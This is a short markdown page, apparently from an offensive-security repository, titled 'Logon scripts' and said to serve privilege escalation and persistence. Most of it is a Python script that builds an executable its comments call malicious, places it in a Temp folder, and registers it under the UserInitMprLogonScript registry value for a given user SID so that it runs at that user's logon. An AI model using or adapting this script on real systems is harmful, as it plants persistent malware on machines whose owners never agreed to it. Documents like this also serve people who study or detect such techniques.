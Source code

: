 # **Logon scripts**

### Can be used for privilege escalation and mentanig presectance

```python
import os, shutil, winreg

filedir = os.path.join(os.getcwd(),"Temp")
filename = "benign.exe"
filepath = os.path.join(filedir,filename)

if os.path.isfile(filepath):
    os.remove(filepath)

# Use BuildExe to create malicious executable
os.system("python BuildExe.py")

# Move malicious executable to desired directory
shutil.move(filename,filedir)

# Windows logon script keys
#reghive = winreg.HKEY_CURRENT_USER
#regpath = "Environment"

reghive = winreg.HKEY_USERS
regpath = "S-1-5-21-524849353-310586374-791561826-1002\Environment"

# Add registry logon script
reg = winreg.ConnectRegistry(None,reghive)
key = winreg.OpenKey(reg,regpath,0,access=winreg.KEY_WRITE)
winreg.SetValueEx(key,"UserInitMprLogonScript",0,winreg.REG_SZ,filepath)
```

### To the users of windows system [names & sids]
